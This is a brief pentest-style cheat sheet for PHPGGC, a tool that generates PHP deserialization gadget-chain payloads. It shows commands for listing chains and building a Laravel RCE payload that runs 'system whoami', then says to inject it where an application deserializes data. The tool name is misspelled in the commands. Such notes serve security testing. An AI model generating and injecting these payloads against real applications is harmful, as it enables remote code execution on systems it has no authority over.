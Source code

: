 # PHP Gadget Chain PHPGCC

## Link: https://github.com/ambionics/phpggc

### Usage:

 - 1) List all available gadget chains
  
          ./phpgcc -l
 
 - 2) List all available gadget chains within a specific framework
  
          ./phpgcc -l laravel

 - 3) Generate a base64 encoded serialized payload
  
          ./phpgcc -b Laravel/RCE4 system whoami

 - 4) Generate a non-encoded serialized payload
  
          ./ phpgcc Laravel/RCE4 system whoami

### Then use our crafted payload to a place where the application handles serialized/deserialized data to inject.
